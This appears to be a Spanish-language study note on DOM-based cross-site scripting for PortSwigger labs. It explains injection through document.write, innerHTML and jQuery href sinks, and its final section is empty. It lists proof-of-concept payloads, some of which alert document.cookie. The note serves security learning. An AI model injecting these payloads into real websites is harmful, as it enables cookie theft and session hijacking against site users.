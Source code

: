 # DOM XSS

Tags: #XSS #PortSwigger #JavaScript #DOM 

* [DOM - Introduccion](https://lenguajejs.com/dom/introduccion/que-es/)

```bash 
# Para este tipo de ataque, se debe de buscar la manera de poder inyectar codigo JavaScript

1. Mirar el codigo fuente en donde se esta colocando texto, puede ser en 'img src=" ">'
2. Ver la manera de poder cerrar alguna comilla para poder inyectar codigo JavaScript

Notas:
	1. En un DOM XSS, el HTML con la inyección no viene del servidor. Si no que se construye y se ejecuta en nuestro navegador a traves de JavaScript 
```

## DOM XSS  con 'document.write' y 'location.search'

```javascript 
// Se debe cerrar la doble comilla y la etiqueta del código para poder ejecutar JavaScript y acontecer el XSS

"> <svg/onload=alert(1)>
"> <img src/onerror=alert(document.domain)>
```

## DOM XSS con 'innerHTML' y 'location.search'

```javascript 
// InnerHTML permite alterar uno o varios elementos del DOM sin afectar el resto de la página

<img src="test.png">        // Cargar una imagen 
<img src=0 onerror=alert(document.cookie)>    // Usar el error para cargar código JavaScript
```

## DOM XSS en 'href' con JQuery y 'location.search'  

```javascript 
// Se puede buscar los siguientes elementos cuando se tiene "JQuery library's $ selector function"
	$('a') -> <a>
	$('#id') -> id="id"
	$('.clase') -> class="clase"


// En 'href' se puede hacer que en lugar de que vaya a la url, esta ejecute una instrucción
javascript:alert(document.cookie)
```

## DOM XSS con JQuery y evento 'hashchange'

```javascript 
// 


```